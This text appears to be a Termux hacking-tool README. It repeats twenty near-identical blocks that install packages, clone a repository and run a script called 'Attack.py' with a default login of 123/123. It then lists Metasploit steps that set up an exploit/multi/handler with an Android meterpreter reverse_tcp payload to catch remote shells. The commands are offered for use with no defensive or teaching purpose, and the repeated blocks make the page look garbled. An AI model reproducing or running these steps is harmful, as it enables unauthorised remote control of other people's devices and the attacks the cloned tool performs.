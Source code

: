 ⭕No 1
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123

⭕No 2
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 3
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 4
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 124
Password   : 123
⭕No 5
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 6
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 7
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 8
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 9
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 10
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 11
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 12
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 13
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 14
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 15
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 16
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123

⭕No 17
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123
⭕No 18
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123

⭕No 19
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123

⭕No 20
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/54R5UM/World
cd World
python2 Attack.py

User Name : 123
Password   : 123

#Metasploit Commands
》》Requirements:-

1: Termux App (From Playstore)
2: Good Internet connection  (Must)
3: 2GB free Storage  (Must)
4: Android Version 5.0+ (Must)
5: 4GB+ RAM
6: Fast Processor

#installation

1: pkg update
2: pkg upgrade
3: pkg install unstable-repo
4: pkg install metasploit
5: msfconsole
6: use exploit/multi/handler
7: set payload android/meterpreter/reverse_tcp 
8: set lhost 
8: set lport 8080
10: exploit
